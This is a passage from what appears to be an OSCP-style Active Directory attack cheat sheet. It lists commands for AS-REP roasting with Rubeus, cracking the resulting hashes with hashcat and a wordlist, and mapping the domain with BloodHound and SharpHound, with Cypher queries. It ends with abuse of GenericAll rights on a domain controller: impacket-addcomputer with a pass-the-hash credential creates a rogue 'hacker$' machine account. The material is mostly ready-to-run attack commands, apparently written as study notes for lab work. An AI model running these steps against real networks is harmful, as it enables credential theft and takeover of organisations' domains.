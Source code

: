 Windows:
```powershell
PS C:\Tools> .\Rubeus.exe asreproast
```
```powershell
PS C:\Tools> .\Rubeus.exe asreproast /nowrap
```
→ Hashcat
```powershell
# sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### BloodHound
```javascript
#Linux:
bloodhound-python -u <username> -d <domain_name> -c all -v -ns $IP

#Windows:
PS> Import-Module .\Sharphound.ps1
PS> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\Public\Temp\ -OutputPrefix "corp audit"

Linux:
sudo neo4j start
and start the bloodhound !!

Custom queries:

#displayes all computers
MATCH (m:Computer) RETURN m

#display all users
MATCH (m:User) RETURN m

#display all active sessions
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p

```

### GenericAll Permission on Domain Controller [ DC ]:

Like this : 

![image](https://github.com/kullaisec/OSCP/assets/99985908/109df214-c1d4-483a-a183-f0b8ca91866c)

```powershell
# impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.161.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'hacker$' -computer-pass 'l9z3JiITmvqcwdq'
```
```powershell
PS > get-adcomputer hacker
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/1eef77ea-dbd6-4a20-89a8-0c1d01d3ed69)
